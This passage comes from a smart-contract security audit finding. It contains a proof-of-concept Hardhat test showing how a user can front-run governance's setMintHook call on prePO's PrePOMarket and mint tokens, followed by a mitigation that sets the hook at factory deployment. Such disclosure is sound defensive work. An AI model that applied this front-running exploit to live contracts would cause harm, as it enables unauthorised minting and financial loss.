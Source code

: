 ### Proof of Concept

<https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L68>

<https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L109>

This test shows how an attacker could frontrun the **setMintHook** function:

```node
  describe('# mint front run attack', () => {
    let mintHook: FakeContract<Contract>
    beforeEach(async () => {
      prePOMarket = await prePOMarketAttachFixture(await createMarket(defaultParams))
    })
    it('user can frontrun the set setMintHook to mint long and short tokens', async () => {
      
      mintHook = await fakeMintHookFixture()
      await collateralToken.connect(deployer).transfer(user.address, TEST_MINT_AMOUNT.mul(2))
      await collateralToken.connect(user).approve(prePOMarket.address, TEST_MINT_AMOUNT.mul(2))

      // we expect the mintHook to always revert
      mintHook.hook.reverts()

      // attacker frontruns the setMintHook, even we expect the mintHook to revert, we will mint
      await prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)

      // governance sets the mintHook
      await prePOMarket.connect(treasury).setMintHook(mintHook.address)

      // as we expect minthook to revert if not called from treasury, it will revert now
      mintHook.hook.reverts()
      await expect(prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)).to.be.reverted

      // we should now have long and short tokens in the attacker account
      const longToken = await LongShortTokenAttachFixture(await prePOMarket.getLongToken())
      const shortToken = await LongShortTokenAttachFixture(await prePOMarket.getShortToken())
      expect(await longToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
      expect(await shortToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
    })
  })
```

### Recommended Mitigation Steps

To prevent the front-running, the `\_mintHook` should be set in the deployment in the PrePOMarketFactory.

You could add one more address to the createMarket that accepts the mintHook address for that deployment and just add the address after the PrePOMarket ist deployed in the Factory.

```solidity
File: apps/smart-contracts/core/contracts/PrePOMarketFactory.sol
46:     PrePOMarket _newMarket = new PrePOMarket{salt: _salt}(_governance, _collateral, ILongShortToken(address(_longToken)), ILongShortToken(address(_shortToken)), _floorLongPrice, _ceilingLongPrice, _floorValuation, _ceilingValuation, _expiryTime);
47:     deployedMarkets[_salt] = address(_newMarket);
```
